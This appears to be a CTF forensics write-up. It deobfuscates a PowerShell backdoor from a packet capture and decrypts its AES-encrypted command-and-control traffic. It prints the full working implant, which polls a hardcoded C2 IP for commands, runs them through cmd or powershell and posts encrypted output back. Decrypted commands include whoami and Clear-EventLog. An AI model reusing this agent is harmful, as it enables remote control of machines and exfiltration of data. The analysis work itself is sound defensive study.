                ${f}    = ("{0}{3}{4}{1}{2}" -f ("{0}{1}"-f'p','owers'),'e','xe','he','ll.')
                ${yO`8X`m5}  = "/c "

                foreach (${a} in ${Y`o8xM5s}){ ${YO8x`m5} += ${a} + " " }
                ${kc`Nj`cqdL}  = &("{0}{1}" -f 'she','ll') ${F} ${yO`8`XM5}
                ${k`cn`jCQDL}  = .("{0}{1}"-f ("{0}{1}" -f 'En','cr'),'ypt') ${vXZT`mfF} ${KCN`jcqDl}
                ${KVqb`x`BUr} = @{("{1}{0}"-f ("{0}{1}" -f 'es','ult'),'r') = "$KcnJCQDl"}

                &("{0}{2}{4}{5}{1}{3}"-f'Inv',("{0}{1}"-f 'WebR','e'),'o',("{1}{0}" -f 'st','que'),'ke','-') -UseBasicParsing -Uri ${tvyMEY`R`R99} -Body ${k`V`qBXb`Ur} -Method ("{1}{0}" -f 'OST','P')
            }
            elseif (${wb`1swYO`Je} -eq ("{0}{1}"-f 'sl','eep')){
                ${n}    = [int]${yO`8Xm`5S}[0]
                ${kV`Q`BXbur} = @{("{0}{1}"-f're',("{0}{1}"-f 'su','lt')) = ""}
                &("{2}{0}{4}{1}{3}" -f 'o',("{1}{0}"-f 'Re','Web'),'Inv',("{0}{1}"-f'qu','est'),'ke-') -UseBasicParsing -Uri ${tV`Ymeyr`R`99} -Body ${Kv`QBXBur} -Method ("{1}{0}" -f 'T','POS')
            }
            elseif (${wb`1sWy`ojE} -eq ("{1}{0}"-f'e',("{1}{0}"-f'm','rena'))){

                ${c`wJ2t`Wh}    = ${Y`O8Xm`5S}[0]
                ${TVY`mey`Rr99} = (("{1}{0}" -f'tp','ht') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijF`Ys`E2}   = (("{1}{0}"-f'ttp','h') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")

                ${kV`Qb`XbUr}    = @{("{1}{0}" -f'lt',("{1}{0}" -f 'esu','r')) = ""}
                .("{0}{1}{4}{2}{3}" -f 'Inv',("{0}{1}{2}" -f'ok','e-','WebR'),'qu','est','e') -UseBasicParsing -Uri ${TVY`mEyR`R`99} -Body ${KvqBxb`Ur} -Method ("{1}{0}"-f 'OST','P')
            }
            elseif (${w`B1s`WYOJe} -eq ("{0}{1}" -f 'qu','it')){
                exit
            }
        }
    .("{1}{0}"-f 'p',("{0}{1}"-f'sl','ee')) ${N}
    }
}
```

This is the `obfuscated PowerShell script`. We need to `deobfuscate` it using the `PowerDecode` tool. ([link tool here](https://github.com/Malandrone/PowerDecode). **Note that everything should be run in an emulator or virtual machine for safety.**)

By saving the `obfuscated PowerShell script` to any file, extracting the tool files, and running the `PowerDecode.bat` file, then selecting the saved file and choosing the folder to receive the result file.






`Result`

```powershell


Layer 2 - Plainscript


${8rT3WA}  = [tyPe]'sySTEm.seCUrItY.cryPTOGRaphY.CiphERMOde' ;SV '72j5O'  (  [TYpe]'sYstem.seCuriTY.cRYptoGRapHY.paDDingmOde'  ) ;   ${XNfD}=[tyPe]'System.cONVErT'  ;  ${HLvW1} =  [tYPe]'SYStEM.tEXt.EnCOdiNG';  SeT-iTem 'vARIabLE:92y7'  (  [Type]'SysteM.NEt.dnS')  ; ${UJXRc}=[tyPE]'StrinG' ;function CrEATe-AeSmanAGeDoBJeCt(${vxZTmff}, ${5TMRWpLUy}) {
    
    ${AJuJVRAZ99}           = New-Object 'System.Security.Cryptography.AesManaged'
    ${AJUjvrAZ99}.Mode      =   (  gEt-vARIAblE  ("8rt3Wa") -Value  )::"cBc"
    ${aJujVRAZ99}.PAddInG   =  ( Dir  'vARIable:72j5o'  ).VALUe::"zeRos"
    ${AJUJvrAz99}.BlOckSizE = 128
    ${AjuJvRAz99}.keysIze   = 256
    
    if (${5TMRWPluy}) {
        
        if (${5TmRWpLuy}.getType.iNVOke().nAME -eq 'String') {
            ${ajUjvRaZ99}.Iv =  (dir  'vaRIaBle:xNFd').vAlUe::'FromBase64String'.InVOKe(${5TMRWPlUy})
        }
        
        else {
            ${ajUjVraZ99}.IV = ${5tmRwPLUy}
        }
    }
    
    if (${VxZtMFF}) {
        
        if (${VXzTmfF}.getType.INvoKe().nAME -eq 'String') {
            ${ajUjVraZ99}.Key =  ( LS 'VariAble:XNFD' ).vAluE::'FromBase64String'.invOKe(${vxzTmFF})
        }
        
        else {
            ${AjUJVrAZ99}.key = ${vXzTmff}
        }
    }
    
    ${aJUjvRAZ99}
}
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    
    ${ByTES}             =   (  varIable  'hlvW1' ).vALUE::"uTf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = Create-AesManagedObject ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase64STRiNG".iNvoke(${FjAXUWqN99})
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {

    ${bYTEs}           =   (vARiable  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = Create-AesManagedObject ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uTF8".GETStriNg(${AhtLmYhl99}).TRIM(' ')
}
function ShELL(${DfJz1co}, ${yo8xm5}){

    ${CwzVYVJ}                        = New-Object 'System.Diagnostics.ProcessStartInfo'
    ${CwZVyVj}.FIlename               = ${DFjZ1co}
    ${CWzvYvj}.reDIRecTsTAnDaRdERrOR  = ${TRue}
    ${cwZVYVJ}.ReDIREcTsTANdarDoUTPUT = ${tRUe}
    ${CWZvyVJ}.USEshELleXeCUTe        = ${FALsE}
    ${cwzvyVJ}.aRgUmENtS              = ${yO8xm5}
    ${p}                            = New-Object 'System.Diagnostics.Process'
    ${P}.sTArTiNFO                  = ${CWzvYVj}

    ${p}.Start.INvoKE() | Out-Null
    ${P}.WaitForExit.invoKE()

    ${BHnxNUrW99} = ${p}.staNdardOuTpUT.ReadToEnd.INVOkE()
    ${NmWkjOAB99} = ${p}.StANdArdeRrOR.ReadToEnd.Invoke()
    ${kCNjcQdL} = ('VALID '+"$BhnXnUrW99n$nmWKJOAb99")
    ${KcnJcQDl}
}
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
${n}    = 3
${Cwj2TWh} = ""
${yCRUTw} =   ${92Y7}::'GetHostName'.inVoKE()
${FNFFGXDzj}  = "p"
${DFctDFM}  = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kVQBXbuR}  = @{
    'name' = "$YCRUTw"
    'type' = "$fNFFGXDZJ"
    }
${CWj2TWh}  = (Invoke-WebRequest -UseBasicParsing -Uri ${dFctDFM} -Body ${kVqBxbUr} -Method 'POST').coNTENT
${TvYMeYrR99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${iJfySE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){

    ${MA04XMgY}  = (Invoke-WebRequest -UseBasicParsing -Uri ${IJFYSE2} -Method 'GET').cONTeNt

    if (-Not  ${UJXRc}::'IsNullOrEmpty'.INvOKe(${MA04XmGy})){

        ${mA04XMgY} = Decrypt ${VXZTmff} ${Ma04XMgY}
        ${mA04XMgY} = ${ma04XMgy}.split.INvokE()
        ${FLAG} = ${MA04xmgY}[0]

        if (${FlAg} -eq 'VALID'){

            ${WB1SWYoje} = ${MA04XMgY}[1]
            ${yO8XM5S}    = ${Ma04XMgY}[2..${MA04xmgY}.LeNgTH]
            if (${wb1sWyoJe} -eq 'shell'){

                ${F}    = 'cmd.exe'
                ${yO8XM5}  = "/c "

                foreach (${a} in ${yo8xM5s}){ ${Yo8xm5} += ${a}}
                ${KcNJCQdL}  = shell ${f} ${yo8xM5}
                ${kCnjCQDL}  = Encrypt ${VxztMFF} ${kcNjcqdl}
                ${kvqbXBUr} = @{'result' = "$KcnJCQDl"}

                Invoke-WebRequest -UseBasicParsing -Uri ${tVyMEyRR99} -Body ${kVQbXbur} -Method 'POST'
            }
            elseif (${Wb1SwYOJe} -eq ''){

                ${f}    = '.exe'
                ${yO8Xm5}  = "/c "

                foreach (${a} in ${Yo8xM5s}){ ${YO8xm5} += ${a}}
                ${kcNjcqdL}  = shell ${F} ${yO8XM5}
                ${kcnjCQDL}  = Encrypt ${vXZTmfF} ${KCNjcqDl}
                ${KVqbxBUr} = @{'result' = "$KcnJCQDl"}

                Invoke-WebRequest -UseBasicParsing -Uri ${tvyMEYRR99} -Body ${kVqBXbUr} -Method 'POST'
            }
            elseif (${wb1swYOJe} -eq 'sleep'){
                ${n}    = [int]${yO8Xm5S}[0]
                ${kVQBXbur} = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${tVYmeyrR99} -Body ${KvQBXBur} -Method 'POST'
            }
            elseif (${wb1sWyojE} -eq 'rename'){

                ${cwJ2tWh}    = ${YO8Xm5S}[0]
                ${TVYmeyRr99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijFYsE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")

                ${kVQbXbUr}    = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${TVYmEyRR99} -Body ${KvqBxbUr} -Method 'POST'
            }
            elseif (${wB1sWYOJe} -eq 'quit'){
                exit
            }
        }
    sleep ${N}
    }
}
```

This part of the code executes the processes.
* Create an `AES encryption mode` in `CBC `with block size and `key` size.
* The `encrypt` and `decrypt` functions of `AES`.

```powershell
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    
    ${ByTES}             =   (  varIable  'hlvW1' ).vALUE::"uTf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = Create-AesManagedObject ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase64STRiNG".iNvoke(${FjAXUWqN99})
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {

    ${bYTEs}           =   (vARiable  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = Create-AesManagedObject ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uTF8".GETStriNg(${AhtLmYhl99}).TRIM(' ')
}
```

Here, the `IV` is appended to the returned `data`, which is `16 bytes`, in the `decrypt` function.

* The `shell` function is responsible for executing `parameters` and `commands`.

In addition, we have other fixed information such as `ip`, `port`, and the `AES encryption key`.

```powershell
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
```
`key` is `d/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M=`

The rest is a `loop` that sends commands through the `/task` endpoint and receives the results from the `/result` endpoint. From there, we can extract information from the `TCP streams` in Wireshark to `decrypt`.



Here, the data at the `/reg` endpoint is sent and received

Next, I wrote a script to `decrypt` the data using `AES`.

`My script`

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64

def decrypt_string(key, data):
    
    key = base64.b64decode(key)
    cipher = base64.b64decode(data)
    
    iv = cipher[:16]
    encrypted_data = cipher[16:]
    
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    
    decr = cipher.decryptor()
    
    decrypted_data = decr.update(encrypted_data) + decr.finalize()
    
    return decrypted_data.decode('utf-8').rstrip('\x00')


key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
data = '...'

plaintext = decrypt_string(key, data)
print(plaintext)
```

Let's try to `decrypt` with the first task.




```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64

def decrypt_string(key, data):
    
    key = base64.b64decode(key)
    cipher = base64.b64decode(data)
    
    iv = cipher[:16]
    encrypted_data = cipher[16:]
    
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    
    decr = cipher.decryptor()
    
    decrypted_data = decr.update(encrypted_data) + decr.finalize()
    
    return decrypted_data.decode('utf-8').rstrip('\x00')


key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
data ="RrzBf9o5vTBf+vInYW3OTzBvvNIWSyyKsx6v25jOD9roPGP4gOhaHPc/u7l804cs"

plaintext = decrypt_string(key, data)
print(plaintext)
```

`Result`

```shell
VALID shell whoami
```

Next, let's try with the first `result`.



```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64

def decrypt_string(key, data):
    
    key = base64.b64decode(key)
    cipher = base64.b64decode(data)
    
    iv = cipher[:16]
    encrypted_data = cipher[16:]
    
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    
    decr = cipher.decryptor()
    
    decrypted_data = decr.update(encrypted_data) + decr.finalize()
    
    return decrypted_data.decode('utf-8').rstrip('\x00')


key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
data ="aix8RxrqFg9Wi2uiE6B8BVgr5L51x55Cxxxw4zppPONqXskKoe+N7OMDg1d06pTj"

plaintext = decrypt_string(key, data)
print(plaintext)
```

`Result`

```shell
VALID mrlminhtuan-pc\ieuser
```

So, we are on the right track. Next, I filtered all the data in the `task` `HTTP stream`, and by observing, we can see that `ip.src == 128.199.207.220`



To be more specific, we need to filter for status `200` and exclude `/reg`, as well as the initial `Excel` file, which has lengths of `854` and `282`, respectively.





Finally, we have created a condition to retrieve the content.

```shell
http && ip.src==128.199.207.220 && http.response.code==200 && !(frame.len == 282 || frame.len == 854)
```

At this point, I used `tshark` to extract the content into the file `task.txt`

```shell
52727a4266396f35765442662b76496e5957334f547a4276764e49575379794b7378367632356a4f4439726f50475034674f68614850632f75376c3830346373
747034705a394f6770493975787234734e757048514a453568426c545664374e62494b3231726a417042663135746a3941754e6f364f552f7a4a2f4b33524569
624b324658323379645747624a4e644a6c69527244716a4f453137703159616b527432636a6761524a4a76307a415656726f2b4771317761443075692b6c4365
75476a79593647636e616259656d38343530762b65323536617375664b344a55686657352f4b516679506541496b6d4269516377426f516249387a3776394e4c794839477769346b365669464c306e4d54434747575330545353367671575248613441446b666361564668636a4c6d42563233646e4f66536f434755577a436734544263704474632b4334514f632f762b645a534c32797477773263382b70593164477774683839645657656a387169666f7464503049397033662f574e4366
725170394c6f31437568336d765334354446306d355a47316c6857342f4a623754363038497041533547774275725447654a356f6f6d496867316a486f317834644c7163526e734e59714b5537636a386747586b51413d3d
65712f675a4d6d7558316350575a594a3969516353693350314b59734f464377646b442f4c3869364853476e3779576d586b385978474e3936566e646f6b5854
```

Each line contains the content of `6 streams` that have been converted from `raw data` to `hex`, so we need to modify our `python script` to

```python
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64

def decrypt_string(key, data):
    key = base64.b64decode(key)
    
    cipher = base64.b64decode(data)
    
    iv = cipher[:16]
    encrypted_data = cipher[16:]
    
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
    decr = cipher.decryptor()
    
    decrypted_data = decr.update(encrypted_data) + decr.finalize()
    
    return decrypted_data.decode('utf-8').rstrip('\x00')

key = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='

with open('task.txt', 'r') as file:
    task=0
    for line in file:
        line = line.strip() 
        if line:
            hex_data = bytes.fromhex(line)
            
            plaintext = decrypt_string(key, hex_data)
            task+=1
            print(f"{task, plaintext}")
```

`Result`

```shell
(1, 'VALID shell whoami')
(2, 'VALID powershell pwd')
(3, 'VALID powershell dir')
(4, "VALID powershell (Format-Hex '.\\Math Test.png' | Select-Object -Expand Bytes | ForEach-Object { '{0:x2}' -f $_ }) -join ''")
(5, 'VALID powershell Get-EventLog -List')
(6, 'VALID powershell Clear-EventLog')
```

This way, we can list each data transfer batch. Next, similarly, we need to filter out the `/result`
 


We can see that the `/result` endpoints are `POST methods`, coming from `ip.src == 192.168.25.164`, and we need to exclude the initial `/reg`, which has a length of `80`





As before, I also used `tshark` to extract the data.

```shell
tshark -r NoStarWhere.pcapng -Y "http && ip.src ==192.168.25.164 && http.request.method == POST &&!(frame.len == 80)" -T fields -e http.file_data > result.txt
```

But at this point, we will encounter an error with the initial result string.



I converted `result=` to hex and removed it from `result.txt`





`result.txt`
```shell
616978385278727146673957693275694536423842566772354c35317835354378787877347a7070504f4e7158736b4b6f652532424e374f4d44673164303670546a
6c754671586d69464e316b795866476b7872443947756b6f65634444357336584c4a776c484a325425324659753746384e6b48777642777574307573302532467262734a616257615648343757485477504564476e6a32727864736d306f37646e733470746b525134636b58397578774d4c4b71465779677a62396f53564137425237696c736a6b42777676534a446d4b434f63495449435467253344253344
73794a467841654a6a64734e587252707a45656e59665934355831416725324233444d632532423856316d6f4d48344a3937644d66344444356c4d695145424e416f6849786d6e6a59473262443973467a4c683973434e58516e723578727a474453714b7a586925324243624d47596b797666416f76614b374472647a647752253242774d4851506a7537756a447a326d30573247336d6c704c76253242667a32396d454662364562744a7063774e2532426d566b6a50735754694c74714e69737a7459324f6743764b6b6a444c4432314b653269697a686844446346574f6334677a3550515358786c454c615073625a31306669564556465755584e4c414d334d545567486d51755941394148437157516d53657756312532466949636f5a25324246774a42324832534a536e5a744c4c684e73426b53674759566165417225324632437a4b525745613631314836626c776c25324253776836747a39466333556953417532313076557264545741543774327256504246547367344f317775447842616364503161567359414b43505579677078786e78776a6465736944756a61316e4e55375a664225324625324241686277783564463141423768674c543541516b4c576568776672783462497a34304a554a74683753346f4e53706f4c6972335a7a746438742532464c79454f4f37715a4570723864356c6962475a6e67725955786f4f454d4a6b6f654d6b367266657042696f444d46734b5130335a6762484c6e665876684e64675275596c563977756344334e4a69745a25324265316254507845616263626f5475253246376c7130437278517675552532425a6e70656477764575374f676a566c64713357323674454857536b33545842596a6c6f4a466869684e787a614c584e52744677613835742532464873625567324b326a37614a5a6f5374424736736138253242384b69584a34385741676e6157616d5873784d55496c4333557a446c486c2532466d45644d6c6a734a4a527837347625324264634f67637245376c4850376864347a47344c304f48686949423270253246363972556551745541424a4d633967696a4c5a35314c6838544d654730373462694b31534f306e414e4a615338456f773077562532462532427239753438384f714e414c4a2532424a6336666759314a524c543372424969424677483532306f716148364363754d6c49563468706b6125324242527365553558364679505435535236506637544946384d4854314e425a7a56784825324265476b42784c4d625a59743339465a4c74577059584f4551626768785554347376747370687a476e463946624d4d6c7865386431415466436d37435144716543344276697136306f57446a75704469253246352532465267484c68253242474a6f6f564f6b6134736f66547745636b464a69663564367632367267726366723531593652656255436f785547516664676f697479546548666d65494b3561585643534e6550516d734d45464972436c3045376e636e464a363439795651366e76444e68784371574c2532427a253246374e3561646d776d377264586f7476376c3547504a394737465157356a434c4a304d7755674b2532466f7247454a6f39332532465349347036705652566c374c3863476165474f63315768575652553477576c44564331787572524d6a6a725867726a73446530593969466b546c447736724a655564346b4b54752532464673695963463958646a32627050386b4c5a75344f61534e6b5a33554577714c732532425063613876253242523271324258306d6a4e6c65596d5a737959717249534468334b75463469427636494e616775444543512532427748487232354c39436a596d752532466e496c4a6d7942304f79636241482532465a71394c534d53497a644436656e6c7847645142667576745970415048665134626d616f3378517873443039676a4130496a4e30356c3842763363556b6c4b3067546b414e5545566855476251374c674e433841354725324245705542333275723732592532424e41464c65434164596438637a737a25324235314b4b4e51723356323951316b585a58475852714e55507661386b446f667743747438486d67353534253242305978454e4e5935533762373248374a77346b7851612532424f6532766b456e426c36456244566932677146644f77764371514437634c50356c3774626b625752426c74434b70766c617a33704a64342532467875426b56435a44424d716f4625324650554974346d5044686d4e3032687241356a563135666f2532426f64386c5946617a78785a416a67347656356d65454c334b33684a6653536d54744c6375587043487778444131253242764f63475673617077546e3276496c79754f6c71334167714b6358723161466236444a596a6e49672532466f3867624a58336c4525324662305a6c565059464278305766493041253246535752736d4e4d374943544a435872476e6b4c4b5479667758587457684a74334234465667646e
6f4c47706e4d3874447248392532464a426535475954726577764e46636c535758466675766f4b66463357657a6a686b4e4d4a3561457433776341556c32636962304174647349425a74676f334d334c4c4c6f25324659623159424672497925324252545a5732727757795345334845316d34414b7632586b574f767775617042424325324669786b70395534647a775364686a4f5943496b2532466d54584c4a614744696f54487a444a4358756963454d50384f347462704462624764504f50486d34484f484e25324256557a59726374466f5279476d36615a3743487979646b5150706c42546e6b73484e343357522532422532424336396d7650596653764754496c4847505736796a476267727451526a574f664979585a44305876473063396235477a3078474a59396178506f456a5a48516c7341744c4d41644653345374565931426a4c25324679424f673668397a6d7531306e5a776e7544702532466958526a566d626a454a655350597764734f69436d4825324675626b454c6c62373262367a39773825324670763654726d434a574b516f3170306d4e55587773744b4b486b7734706e42573549473948774f4f6b527a42714237796e61343367476a454e7a67646d7551575a6133356c376f7a75354b506a6756354c774d665465595744726e49493271766a39396a3446685773784554743835253242546649342532465a633366414544384e74694173357378616b3033424168586e323678466c77572532466642443751704d506c5575547331456f63756e3474475250566653376a4f38446d4b253246476c783831532532463442793636354f564239566a327a4c516871664173735651566e7a253242656c6371466342414842253242476b6a354a4b446b3555374d654f484e6931476a7879726d7776564f6e37703653486454355745345339624d33524b6d69417a37366465366d326a6f7a53707772356b5664356c466872515333436f7a697776776b48594f4d75376c316e75436b4e363545666c5952745366566e5033656738516a44546e6336436a684b2532467054444b44556f727346513939313458326e453677776a64646741313631554f5057347277483451733643514a3962674442253242416f4d6b527349253242647a5a54726c51474c76314367583230493365786e466b5141457a6d44556f31697354527a435a514d354d6941624c76696f5a54467075346339664835344a424d564649754d33594c69367a74754d474c3476326357626a382532466b7a66564c446447336d4b4c555a483663554c46612532427034777261554c626d594c4c3464493779326941616751754f587a716754757162253246646f6d387078314a43614d6f415268697a4855394e4c7033
68253246524546394c4f694e65324b34367067656a25324263253242356c46614d526e783430754a364a56443871755747544e69363949555569506b6f577864737463657331325379584464674939487757333778716d506c475032636f4e716d7142454a5632546762685748696c736c7a65584f57336e75524e4a37787162736a416c595a767a5464516e464e42794359554845586e6825324675637456307a53594950323351764a52506d3631376625324625324261346c73686538784c6a506325324643686b6a686b7058386c724f594b75675730696d504d6f6c766f79536a3536376e6b6f5846393550774746496a7262686e392532466a716a4b4e576261324e524d315a776b7172716b314f334f774f75596f6c63566a666c38437452763371496b6c7669414b71665953335745585a713425324279596c4943665a4556656b4f2532424c546b7968466d626e46364c4870365a714e3643425454336b495a665051724952386d68724253764d5856433345725459524d456863764b44576b6e344875754a683954456f7171644b514552756a6c354c4c71304950494841504525324278642532425947635547684e622532426f766f7a734743426b737175683671475159445335585173633433584b6442716e466f5039585a54613670344b4e5642764e5875523843765044686d4b44655a5470644b74734553524b736d746150666a38516c65377a75336b666264326230524364647a375448554434362532426530556a77547438253242796f664b51567a334a486d4577714e43537874616776486d31684d426e66704c5754774f7a416339483072344973774a696e4d62306f767431644657475364627a633473253246253242594c536566446564525a4858573946577153676f495847426325324245516875467651515069493668545471363459382532425170424272477a58626f70383372444750425073395a7476616656444e59346241354e4d437579744f5542346a4b353051676670506a496c56664d616a546869685268646f6136644a6c7175566c4e71347063465833655471582532425546516c646c6d7750797856674946387558474a526732554d75775956594471306e4f4355506962434a3848377077626853564d4638374c3177704967503225324665425346314d4979667536323168496f584d4c6962445561784c75707
```

A small note: we need to convert from `hex` to `base64`, but in `base64`, it will be `URL-encoded` due to the `transmission`, so we can decode it using `CyberChef` ([Link here](https://cyberchef.org/#recipe=Find_/_Replace(%7B'option':'Regex','string':'726573756c743d'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'253242'%7D,'2b',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'253246'%7D,'2f',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'253344'%7D,'3d',true,false,true,false)&input=NzI2NTczNzU2Yzc0M2Q2MTY5NzgzODUyNzg3MjcxNDY2NzM5NTc2OTMyNzU2OTQ1MzY0MjM4NDI1NjY3NzIzNTRjMzUzMTc4MzUzNTQzNzg3ODc4NzczNDdhNzA3MDUwNGY0ZTcxNTg3MzZiNGI2ZjY1MjUzMjQyNGUzNzRmNGQ0NDY3MzE2NDMwMzY3MDU0NmEKNzI2NTczNzU2Yzc0M2Q2Yzc1NDY3MTU4NmQ2OTQ2NGUzMTZiNzk1ODY2NDc2Yjc4NzI0NDM5NDc3NTZiNmY2NTYzNDQ0NDM1NzMzNjU4NGM0YTc3NmM0ODRhMzI1NDI1MzI0NjU5NzUzNzQ2Mzg0ZTZiNDg3Nzc2NDI3Nzc1NzQzMDc1NzMzMDI1MzI0NjcyNjI3MzRhNjE2MjU3NjE1NjQ4MzQzNzU3NDg1NDc3NTA0NTY0NDc2ZTZhMzI3Mjc4NjQ3MzZkMzA2ZjM3NjQ2ZTczMzQ3MDc0NmI1MjUxMzQ2MzZiNTgzOTc1Nzg3NzRkNGM0YjcxNDY1Nzc5Njc3YTYyMzk2ZjUzNTY0MTM3NDI1MjM3Njk2YzczNmE2YjQyNzc3Njc2NTM0YTQ0NmQ0YjQzNGY2MzQ5NTQ0OTQzNTQ2NzI1MzM0NDI1MzM0NAo3MjY1NzM3NTZjNzQzZDczNzk0YTQ2Nzg0MTY1NGE2YTY0NzM0ZTU4NzI1MjcwN2E0NTY1NmU1OTY2NTkzNDM1NTgzMTQxNjcyNTMyNDIzMzQ0NGQ2MzI1MzI0MjM4NTYzMTZkNmY0ZDQ4MzQ0YTM5Mzc2NDRkNjYzNDQ0NDQzNTZjNGQ2OTUxNDU0MjRlNDE2ZjY4NDk3ODZkNmU2YTU5NDczMjYyNDQzOTczNDY3YTRjNjgzOTczNDM0ZTU4NTE2ZTcyMzU3ODcyN2E0NzQ0NTM3MTRiN2E1ODY5MjUzMjQyNDM2MjRkNDc1OTZiNzk3NjY2NDE2Zjc2NjE0YjM3NDQ3MjY0N2E2NDc3NTIyNTMyNDI3NzRkNDg1MTUwNmE3NTM3NzU2YTQ0N2EzMjZkMzA1NzMyNDczMzZkNmM3MDRjNzYyNTMyNDI2NjdhMzIzOTZkNDU0NjYyMzY0NTYyNzQ0YTcwNjM3NzRlMjUzMjQyNmQ1NjZiNmE1MDczNTc1NDY5NGM3NDcxNGU2OTczN2E3NDU5MzI0ZjY3NDM3NjRiNmI2YTQ0NGM0NDMyMzE0YjY1MzI2OTY5N2E2ODY4NDQ0NDYzNDY1NzRmNjMzNDY3N2EzNTUwNTE1MzU4Nzg2YzQ1NGM2MTUwNzM2MjVhMzEzMDY2Njk1NjQ1NTY0NjU3NTU1ODRlNGM0MTRkMzM0ZDU0NTU2NzQ4NmQ1MTc1NTk0MTM5NDE0ODQzNzE1NzUxNmQ1MzY1Nzc1NjMxMjUzMjQ2Njk0OTYzNmY1YTI1MzI0MjQ2Nzc0YTQyMzI0ODMyNTM0YTUzNmU1YTc0NGM0YzY4NGU3MzQyNmI1MzY3NDc1OTU2NjE2NTQxNzIyNTMyNDYzMjQzN2E0YjUyNTc0NTYxMzYzMTMxNDgzNjYyNmM3NzZjMjUzMjQyNTM3NzY4MzY3NDdhMzk0NjYzMzM1NTY5NTM0MTc1MzIzMTMwNzY1NTcyNjQ1NDU3NDE1NDM3NzQzMjcyNTY1MDQyNDY1NDczNjczNDRmMzE3Nzc1NDQ3ODQyNjE2MzY0NTAzMTYxNTY3MzU5NDE0YjQzNTA1NTc5Njc3MDc4Nzg2ZTc4Nzc2YTY0NjU3MzY5NDQ3NTZhNjEzMTZlNGU1NTM3NWE2NjQyMjUzMjQ2MjUzMjQyNDE2ODYyNzc3ODM1NjQ0NjMxNDE0MjM3Njg2NzRjNTQzNTQxNTE2YjRjNTc2NTY4Nzc2NjcyNzgzNDYyNDk3YTM0MzA0YTU1NGE3NDY4Mzc1MzM0NmY0ZTUzNzA2ZjRjNjk3MjMzNWE3YTc0NjQzODc0MjUzMjQ2NGM3OTQ1NGY0ZjM3NzE1YTQ1NzA3MjM4NjQzNTZjNjk2MjQ3NWE2ZTY3NzI1OTU1Nzg2ZjRmNDU0ZDRhNmI2ZjY1NGQ2YjM2NzI2NjY1NzA0MjY5NmY0NDRkNDY